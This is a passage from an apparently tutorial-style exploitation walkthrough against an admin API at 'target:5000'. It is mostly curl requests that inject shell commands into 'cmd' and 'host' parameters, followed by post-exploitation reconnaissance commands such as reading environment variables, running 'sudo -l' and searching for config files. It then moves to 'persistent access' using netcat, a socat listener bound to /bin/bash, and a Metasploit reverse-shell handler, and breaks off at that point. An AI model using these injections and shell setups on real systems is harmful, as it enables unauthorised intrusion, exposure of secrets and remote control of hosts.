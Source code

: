 ```bash
curl -X GET "http://target:5000/admin/system-info?cmd=env" \
     -H "Authorization: Bearer $TOKEN"
```

**Method 2: Network Tools Endpoint**
```bash
# Command injection in host parameter
curl -X GET "http://target:5000/admin/network?tool=connectivity&host=8.8.8.8;whoami" \
     -H "Authorization: Bearer $TOKEN"

# Multiple command execution
curl -X GET "http://target:5000/admin/network?tool=portscan&host=127.0.0.1;id;pwd&port=80" \
     -H "Authorization: Bearer $TOKEN"
```

#### 5. Escalate to System Access

Once basic injection works, try:

```bash
# View system information
8.8.8.8; uname -a

# List current directory
8.8.8.8; pwd && ls -la

# Check running processes
8.8.8.8; ps aux

# Find sensitive files
8.8.8.8; find / -name "*.conf" 2>/dev/null | head -10

# Check user privileges
8.8.8.8; sudo -l

# Network configuration
8.8.8.8; ifconfig || ip addr show
```

#### 6. Establish Persistent Access

**Set up a listener first:**
```bash
# Basic netcat listener
nc -lvp 4444

# Enhanced listener with proper terminal
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

# Using Metasploit
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST YOUR_IP; set LPORT 4444; exploit"
```
